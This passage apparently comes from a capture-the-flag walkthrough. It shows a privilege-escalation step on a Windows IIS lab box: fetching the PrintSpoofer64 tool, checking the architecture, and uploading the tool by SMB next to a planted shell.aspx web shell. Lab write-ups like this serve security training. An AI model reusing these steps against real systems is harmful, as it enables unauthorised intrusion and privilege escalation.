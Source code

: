 There are both 32 and 64 bit versions for download here, and we'll need the 64 bit one:

[https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

```
PrintSpoofer64.exe 26.5 KB
```

You can check your architecture in Windows with the following command if you don't have GUI access:

`wmic os get osarchitecture`

```
c:\windows\system32\inetsrv>wmic os get osarchitecture
wmic os get osarchitecture
OSArchitecture  
64-bit
```

I then upload the **PrintSpoofer64.exe** file to the SMB share so we can retrieve it on the target system and run it in our shell.

```
smb: \> put PrintSpoofer64.exe
putting file PrintSpoofer64.exe as \PrintSpoofer64.exe (83.9 kb/s) (average 53.8 kb/s)
smb: \> dir
  .                                   D        0  Mon Feb  7 01:14:24 2022
  ..                                  D        0  Mon Feb  7 01:14:24 2022
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
  PrintSpoofer64.exe                  A    27136  Mon Feb  7 01:14:24 2022
  shell.aspx                          A     3406  Mon Feb  7 01:10:55 2022

                7735807 blocks of size 4096. 4949954 blocks available
```

You can find the files locoated in the **inetpub\wwwroot\nt4wrksv** directory:

```
c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

02/06/2022  10:14 PM    <DIR>          .
02/06/2022  10:14 PM    <DIR>          ..
07/25/2020  07:15 AM                98 passwords.txt
02/06/2022  10:14 PM            27,136 PrintSpoofer64.exe
02/06/2022  10:10 PM             3,406 shell.aspx
               3 File(s)         30,640 bytes
               2 Dir(s)  20,275,011,584 bytes free
```

I found instructions for running the **PrintSpoofer64** command here:

[https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
